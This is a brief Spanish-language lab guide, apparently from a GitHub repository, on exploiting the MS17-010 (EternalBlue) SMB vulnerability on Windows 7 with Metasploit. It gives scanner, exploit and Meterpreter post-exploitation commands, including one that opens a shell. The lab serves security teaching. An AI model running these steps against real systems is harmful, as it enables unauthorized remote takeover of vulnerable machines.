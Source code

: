 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo:Windows 7 , 64 bits, con el Firewall inactivo  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
```
Search ms17_10
```
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```

**Exploiting**
* use exploit/windows/smb/ms17_010_eternalblue
* show options 
* set RHOST < Rhost-id > 
* exploit 
 
**Post Exploitation**
* Sysinfo
* Getuid
* Shell

Enlace para mayor información
----- https://www.metasploit.com/
